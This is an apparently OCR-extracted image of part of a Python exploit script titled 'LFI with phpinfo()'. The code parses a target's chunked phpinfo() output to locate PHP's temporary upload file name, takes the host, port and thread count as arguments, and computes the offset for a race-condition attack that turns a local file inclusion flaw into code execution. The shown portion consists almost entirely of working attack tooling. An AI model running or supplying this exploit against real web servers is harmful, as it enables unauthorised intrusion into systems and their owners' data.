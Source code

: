 ```python
            break
     
        # detect the final chunk
        if rcv_data.endswith("0\r\n\r\n"):
            break
     
    s.close()
     
    # debug
    #log.debug(data)
     
    index = data.find("[tmp_name] =>")
    if index == -1:
        raise ValueError("No php tmp_name in phpinfo output")
     
    info_msg = "found {file} at {index}".format(file=data[index:index+10], index=index)
    log.info(info_msg)
     
    # padded up a bit
    return index+256

 

def main():

    banner = "LFI with phpinfo()\n"
    banner += "=" * 30
    print(banner)
     
    usage = "python {prog} host [port] [threads]. -h for help".format(prog=sys.argv[0])
     
    parser = ArgumentParser(usage=usage)
    parser.add_argument('host', help="ip or domain, e.g. 127.0.0.1")
    parser.add_argument('-p', dest='port', type=int, default=80,
            help="port, default is 80")
    parser.add_argument('-t', dest='threads', type=int, default=10,
            help="use n threads to access, default is 10")
    args = parser.parse_args()
     
    host = args.host
    port = args.port
    poolsz = args.threads
     
    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error as e:
        err_msg = "Error with hostname {h}:{err}".format(h=sys.argv[1], err=e)
        log.error(err_msg)
        sys.exit(1)
     
    info_msg = "Getting initial offset ..."
    log.info(info_msg)
     
    req, tag, lfi_req = setup(host, port)
     
    #debug_msg = '\n\n'.join([req, tag, lfi_req])
    #log.debug(debug_msg)
     
    offset = getoffset(host, port, req)
     
    sys.stdout.flush()
     
    maxattempts = 500
```